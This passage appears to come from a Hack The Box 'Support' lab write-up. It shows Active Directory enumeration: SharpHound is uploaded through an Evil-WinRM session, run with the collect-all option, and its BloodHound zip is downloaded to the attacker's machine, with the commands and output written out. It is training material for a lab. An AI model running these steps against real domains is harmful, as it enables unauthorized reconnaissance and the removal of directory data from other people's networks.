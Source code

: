 AD Enumeration With Sharphound/Bloodhound
-----------------------------------------

Next we will need to do some more enumeration to find a path for privilege escalation. We'll be using sharphound to collect Active Directory information. Precompiled binaries can be found at the following links.

Sharphound: [https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

Bloodhound: [https://github.com/BloodHoundAD/BloodHound/releases](https://github.com/BloodHoundAD/BloodHound/releases)

As we wont be using evasion techniques running sharphound on the target is simply a matter of uploading the binary to our target using EvilWinRM and executing it. Bloodhound will be used on our local machine to visually graph our target environment using the info we collected with sharphound. This takes a bit of setup which I will not cover here, I would recommend using this guide to complete the initial Neo4j and Bloodhound setup: [https://github.com/duncandw/Howto-Install-neo4j-and-BloodHound-on-Ubuntu](https://github.com/duncandw/Howto-Install-neo4j-and-BloodHound-on-Ubuntu)

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/kali/Desktop/HTB/Machines/support/SharpHound.exe
Info: Uploading /home/kali/Desktop/HTB/Machines/support/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe

                                                           
Data: 1402196 bytes of 1402196 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/3/2023   4:34 PM        1051648 SharpHound.exe
```

Now that sharphound has been uploaded and we have verified on the target we can run sharphound with the collect all switch as we would like to collect as much information as possible and don't care how much noise we make.

```text-plain
.\SharpHound.exe --memcache -c all -d support.htb -DomainController 127.0.0.1
```

Once its done we will need to download the zip file that it created to our local machine so we can load it into bloodhound.

```text-plain
C:\Users\support\Documents> download 20230403164937_BloodHound.zip
```
